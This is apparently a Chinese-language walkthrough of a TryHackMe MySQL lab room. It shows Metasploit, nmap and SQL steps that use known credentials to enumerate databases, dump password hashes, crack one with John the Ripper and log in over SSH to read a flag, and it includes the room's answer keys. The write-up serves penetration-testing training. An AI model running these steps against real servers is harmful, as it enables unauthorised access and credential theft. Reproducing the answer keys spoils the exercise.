





## 认识MySQL
### 什么是Mysql？
MySQL是基于结构化查询语言（SQL）的关系数据库管理系统（RDBMS）

- **Database**：结构化数据的持久的、有组织的集合
- **RDBMS**：用于管理和创建*基于关系模型的数据库*的*软件或服务*
	- “**关系**”这个词只是意味着存储在数据集中的数据是以表的形式组织的,每个表都以某种方式与彼此的“主键”或其他“关键”因素相关。

MYSQL只是最流行的RDBMS软件实现之一的品牌名称。正如我们所知，它使用客户端-服务器模型。它们使用一种语言，特别是结构化查询语言（SQL）。

许多其他产品（例如PostgreSQL和MicrosoftSQL server）中都有SQL一词。这同样意味着这是一个使用结构化查询语言语法的产品。

### MySQL是如何工作的？

服务器处理所有数据库指令，如创建，编辑和访问数据。它接受并管理这些请求，并使用MySQL协议进行通信。整个过程可以分为以下几个阶段：
- MySQL创建一个数据库来存储和操作数据，定义每个表的关系。
- 客户端通过在 SQL 中发出特定语句来提出请求。
- 服务器将向客户端回应所请求的任何信息。


### MySQL运行在什么系统上？

MySQL可以运行在任意平台，不管是Linux 还是Windows。MySQL常被用作众多知名网站的后端数据库，同时也是LAMP堆栈的核心组成部分，该堆栈包括Linux、Apache、MySQL和PHP。

这里有一些资源，它们比我在这里介绍的更详细地解释了MySQL的技术实现和工作：
 
- [MySQL: SQL Query Execution](https://dev.mysql.com/doc/dev/mysql-server/latest/PAGE_SQL_EXECUTION.html)
- [W3Schools.com](https://www.w3schools.com/php/php_mysql_intro.asp)

### 回答以下问题


```ad-details
collapse: true
title:MySQL是什么类型的软件？
**答案** `relational database management system`
```

```ad-details
collapse: true
title: MySQL是基于语言的？
**答案** `SQL`
```

```ad-details
collapse: true
title: MySQL使用什么通用模型？
**答案** `client-server`
```

```ad-details
collapse: true
title: MySQL的常见用途是什么？
**答案** `back and database`
```

```ad-details
collapse: true
title: 哪些知名社交平台采用MySQL作为其后台数据库？这需要进一步调查。
**答案** `Facebook`
```

## 枚举MySQL

一般在获取关键服务器的初始信息时，mysql不会成为第一个攻击点，在CTF中，一般会在一些其他途径获取到凭据（用户名，秘密）。如果真的没有其他信息，你可以尝试使用默认账户和密码尝试登陆。

### 场景

假设已经在其他途径找到了凭据`root:password`,在尝试`ssh`登陆失败后尝试进行`MySQL`登陆。

### 要求

- 您需要在系统上安装MySQL客户端用来远程到服务器，如果没有安装请使用以下命令安装。

```bash file:mysql-client
sudo apt install default-mysql-client
```

- 我们将使用`Metasploit`完成此枚举（在[KaliLinux](https://www.kali.org/)和 [ParrotOS](https://www.parrotsec.org/)上都是默认安装的）。
- 使用Metsploit 做的操作也可以手动完成，或者使用一组非Metasploit工具完成，例如：[NMAP](6.Network_NMAP.md)的`mysql-enum`脚本[https://nmap.org/nsedoc/scripts/mysql-enum.html](https://nmap.org/nsedoc/scripts/mysql-enum.html)或者[https://www.exploit-db.com/exploits/23081](https://www.exploit-db.com/exploits/23081)。建议完成此任务后，返回并手动尝试。

### 回答以下问题

```ad-details
collapse: true
title: 往常一样，让我们从端口扫描开始，这样我们就可以知道我们试图攻击的服务运行在哪个端口上？
**答案** `3306`
```
很好，现在我们有一套凭据。让我们通过手动连接到MySQL服务器来仔细检查。我们可以使用命令“_mysql -h [IP] -u [username] -p_“来实现这一点。

好吧，我们知道我们的登录凭证是有效的。让我们用“exit”退出这个会话，然后启动Metasploit。
```bash file:msfconsle
msfconsle
```
我们将使用“mysql_sql”模块。

```bash file:msfconsle
msf6 > search mysql_sql

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  auxiliary/admin/mysql/mysql_sql  .                normal  No     MySQL SQL Generic Query
```

````ad-details
collapse: true
title: 搜索，并列出所需的选项。我们需要设置哪三个选项（使用降序排列）？
**答案**:`PASSWORD/RHOSTS/USERNAME`

**解析**：
- 进入模块
```bash
msf6 >  use auxiliary/admin/mysql/mysql_sql
```
- 查看配置选项
```bash
msf6 auxiliary(admin/mysql/mysql_sql) > options
```

````

````ad-details
collapse: true
title: 运行该漏洞利用工具。默认情况下，它将使用“selectversion()”命令，这会得到什么结果？？
**答案**: `5.7.29-0ubuntu0.18.04.1`

**解析**：
- 配置参数
```bash file:msfconsle
msf6 auxiliary(admin/mysql/mysql_sql) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(admin/mysql/mysql_sql) > set RHOSTS 10.10.58.132
RHOSTS => 10.10.58.132
msf6 auxiliary(admin/mysql/mysql_sql) > set USERNAME root
USERNAME => root
msf6 auxiliary(admin/mysql/mysql_sql) > run 
```
- 输出结果


````

````ad-details
collapse: true
title:太好了！我们的操作正如预期那样成功。现在，让我们尝试获取更深入的信息。将“sql” option 更改为`show databases`。一共有多少个数据库被返回？
**答案** `4`

**解析**：
- 配置要使用的`sql`语句
```bash file:msfconsle
msf6 auxiliary(admin/mysql/mysql_sql) > options
...
msf6 auxiliary(admin/mysql/mysql_sql) > set SQL "show databases"
SQL => show databases
```
- 配置结果



- 输出结果

````

## 利用MySQL

目前我们在枚举阶段获取到的信息有
- MySQL 服务凭据（`root:password`）
- MySQL运行的版本
- 数据库数量及名称

### 关键术语

#### Schema 
- **Schema**直译为架构、模式。
- 在MySQL中`schema`与`database`同义，您可以在MySQL语法中使用关键字`SCHEMA`来代替`DATABASE`。例如：使用`CREATE SCHEMA`替代`CREATE DATABASE` 。

```ad-info
理解这种关系很重要，因为其他一些数据库产品也有区别。例如，在Oracle数据库产品中，`SCHEMA`仅表示数据库的一部分：由单个用户拥有的表和其他对象。
```

#### Hashes

- **Hashes** ：音译为哈希，直译为散列函数
- 是将可变长度输入转换为固定长度输出的加密算法的产物。

 在MySQL中，哈希可以以不同的方式使用，例如将数据索引到哈希表中。每个散列都有一个唯一的ID，用作指向原始数据的指针。 这样就创建了一个比原始数据小得多的索引，使得对值的搜索和访问更加高效。然而，我们将提取的数据是密码哈希，这仅仅是一种存储密码而不使用明文格式的方法。

````ad-details
collapse: true
title: 首先，让我们搜索并选择“mysql_schemadump”模块。模块的全名是什么？
**答案** `auxiliary/scanner/mysql/mysql_schemadump `
```bash
msf6 auxiliary(admin/mysql/mysql_sql) > search mysql_schemadump
...
   0  auxiliary/scanner/mysql/mysql_schemadump  
...
```

````

````ad-details
collapse: true
title: 好极了！现在，你已经操作过好几次了，所以我将让你从这一步开始。设置相关选项，运行攻击程序。最后一个被导出的表的名称是什么？
**答案** `x$waits_global_by_latency`

```bash
use auxiliary/scanner/mysql/mysql_schemadump

msf6 auxiliary(admin/mysql/mysql_sql) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(admin/mysql/mysql_sql) > set RHOSTS 10.10.58.132
RHOSTS => 10.10.58.132
msf6 auxiliary(admin/mysql/mysql_sql) > set USERNAME root
USERNAME => root
msf6 auxiliary(admin/mysql/mysql_sql) > run 

```


````

````ad-details
collapse: true
title: 太棒了，你现在已经导出了整个数据库的表结构和列名。但我们可以做得更出色……搜索并选择`mysql_hashdump`模块。这个模块的全称是什么？
**答案** `auxiliary/scanner/mysql/mysql_hashdump `

```bash
msf6 auxiliary(scanner/mysql/mysql_schemadump) > use mysql_hashdump

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  auxiliary/scanner/mysql/mysql_hashdump  .                normal  No     MYSQL Password Hashdump
   1  auxiliary/analyze/crack_databases       .                normal  No     Password Cracker: Databases
   2    \_ action: hashcat                    .                .       .      Use Hashcat
   3    \_ action: john                       .                .       .      Use John the Ripper


Interact with a module by name or index. For example info 3, use 3 or use auxiliary/analyze/crack_databases
After interacting with a module you can manually set a ACTION with set ACTION 'john'

msf6 auxiliary(scanner/mysql/mysql_schemadump) > 
```


````

````ad-details
collapse: true
title: 再次，接下来就交给你了。设置相应的选项，执行漏洞利用。哪个非默认用户引起了你的注意？
**答案** `carl`


**解析** ：
- 参数配置
```bash
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set RHOSTS 10.10.58.132 
RHOSTS => 10.10.58.132
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/mysql/mysql_hashdump) > options
...
msf6 auxiliary(scanner/mysql/mysql_hashdump) > run

```
- 结果
```bash
msf6 auxiliary(scanner/mysql/mysql_hashdump) > run 

[+] 10.10.58.132:3306 - Saving HashString as Loot: root:
[+] 10.10.58.132:3306 - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.58.132:3306 - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.58.132:3306 - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.58.132:3306 - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.58.132:3306 - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
[*] 10.10.58.132:3306 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/mysql/mysql_hashdump) > 
```


````

又一个用户！而且我们已经获取了他们的密码散列。这个密码散列信息可能非常有价值。请完整复制哈希字符串，例如：`bob:*HASH`，并将其保存到您本地机器上名为“hash.txt”的文本文件中。

```ad-details
collapse: true
title: 这个`user/hash`组合字符串是什么？
**答案** `carl:*EA031893AA21444B170FC2162A56978B8CEECE18`
```

````ad-details
collapse: true
title: 现在，我们必须破解这个密码！让我们用`John the Ripper`工具来尝试破解，使用“`john hash.txt`”文件，我们找到的这个用户的密码是什么？
**答案** `doggie `

```bash
root@ip-10-10-17-70:~# john  hash.txt 
Warning: detected hash type "mysql-sha1", but the string is also recognized as "mysql-sha1-opencl"
...
Proceeding with incremental:ASCII
doggie           (carl)
...
root@ip-10-10-17-70:~# 
```

````

棒极了，密码重复使用不仅极其危险，而且极为普遍。这个用户将他们的密码用于其他服务的可能性有多大呢？

````ad-details
collapse: true
title: 关于`MySQL.txt`文件，它包含了哪些内容？
**答案** `THM{congratulations_you_got_the_mySQL_flag}`

**解析**：
- 登陆`ssh`
```bash
root@ip-10-10-17-70:~# ssh carl@10.10.58.132 
...
carl@10.10.58.132's password:      #password: doggie
```
- 获取`flag`

```
carl@polomysql:~$ ls
MySQL.txt
carl@polomysql:~$ cat MySQL.txt 
THM{congratulations_you_got_the_mySQL_flag}
carl@polomysql:~$ 
```
````


## 近一步学习

这里有一些东西，如果你感兴趣，在完成这个房间后阅读可能会有用：

- https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/4/html/security_guide/ch-exploits
- https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/
### 手动枚举

####  nmap脚本扫描mysql

```bash  mysql-enum
nmap --script=mysql-enum 10.10.58.132

...
Host is up (0.00067s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
3306/tcp open  mysql
| mysql-enum: 
|   Valid usernames: 
|     root:<empty> - Valid credentials
|     guest:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|     web:<empty> - Valid credentials
|     test:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     user:<empty> - Valid credentials
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
MAC Address: 02:62:79:23:FC:51 (Unknown)
...

```

#### 登陆mysql

```bash file:login-mysql
sudo apt install default-mysql-client
...

mysql -h 10.10.58.132 -u root -p
```

#### 查询数据库

```sql file:databases
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
4 rows in set (0.00 sec)
```


#### 查询`mysql`库中的表

```sql file:查询msql库中的表
mysql> show tables;
+---------------------------+
| Tables_in_mysql           |
+---------------------------+
| columns_priv              |
| db                        |
| ...                       |
| user                      |
+---------------------------+
```

#### 查询用户名和秘密的hash值

```sql file:user_and_auth
mysql> select * from user;

mysql> select User, authentication_string from user;
+------------------+-------------------------------------------+
| User             | authentication_string                     |
+------------------+-------------------------------------------+
| root             |                                           |
| mysql.session    | *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE |
| mysql.sys        | *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE |
| debian-sys-maint | *D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E |
| root             | *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19 |
| carl             | *EA031893AA21444B170FC2162A56978B8CEECE18 |
+------------------+-------------------------------------------+
6 rows in set (0.00 sec)
```

#### 破解hash
```bash file:john
john  hash.txt 

...

doggie           (carl)
```

然后登陆`ssh`,并获取到`flag`...